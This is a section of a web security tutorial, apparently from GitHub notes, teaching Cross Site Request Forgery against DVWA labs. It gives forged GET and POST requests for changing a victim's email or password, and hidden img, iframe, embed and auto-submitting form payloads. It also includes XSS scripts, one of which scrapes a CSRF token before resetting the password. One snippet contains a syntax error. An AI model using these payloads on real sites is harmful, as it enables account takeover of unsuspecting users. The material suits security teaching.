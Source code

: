 ## 6. Cross Site Request Forgery (CSRF)

![](https://portswigger.net/web-security/images/cross-site%20request%20forgery.svg)
>We will use DVWA Labs To Learn CSRF Attack


**What is CSRF Attack?**

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality. 

**Example URL (GET Method)**

```
http://target-vuln-web.com/email/change?email=attacker@anon.net
http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass
```
**Example Request (POST Method)**

```
POST /email/change HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

email=attacker@anon.net
```

```
POST user/new_password HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

password=newpass&comfirm_password=newpass
```

**Exploit CSRF Vulnerability Via HTML Injections (GET Method)**

>Using Image Tag
```
<img style="display:none;" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass">
```

>Using Iframe Tag
```
 <iframe src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass" style="display:none;"></iframe> 
```

>Using Embed Tag
```
 <embed type="image/jpg" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass" style="display:none;"> 
```

**Exploit CSRF Vulnerability Via HTML Injections (POST Method)**

>Form + Script Tag (Without Token)
```
<form action="http://target-vuln-web.com/user/new_password" method="POST">
            <input type="hidden" name="password" value="newpass" />
            <input type="hidden" name="comfirm_password" value="newpass" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
```

>Form + Script Tag (With Token)
```
<form action="http://target-vuln-web.com/user/new_password" method="POST">
            <input type="hidden" name="password" value="newpass" />
            <input type="hidden" name="comfirm_password" value="newpass" />
            <input type="hidden" name="token" value="tokenishere" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
```

**Exploit CSRF Vulnerability Via XSS (GET Method)**

>Whithout token
```
<script>
const HttpRequest = new XMLHttpRequest();
const url=const url = 'http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass'
;
HttpRequest.open("GET", url);
HttpRequest.send();
</script>
```

>With token
```
<body onload="change_password()">
 <script>
        function change_password(){
            const request = new XMLHttpRequest();
            const url = "http://localhost:80/vulnerabilities/csrf/"
            

            request.open("GET", url);
            request.onreadystatechange = () => {
            if (request.readyState === request.DONE && request.status === 200) {

                var response = request.responseText;

                var user_token = /[a-f0-9]{32}/g.exec(response)[0]
                var payload = "http://localhost:80/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change&user_token="+user_token;
                var second_request = new XMLHttpRequest();
                second_request.open("GET", payload);
                second_request.send()

            }
            };
            request.send()
        
    }
        </script>
</body>
```
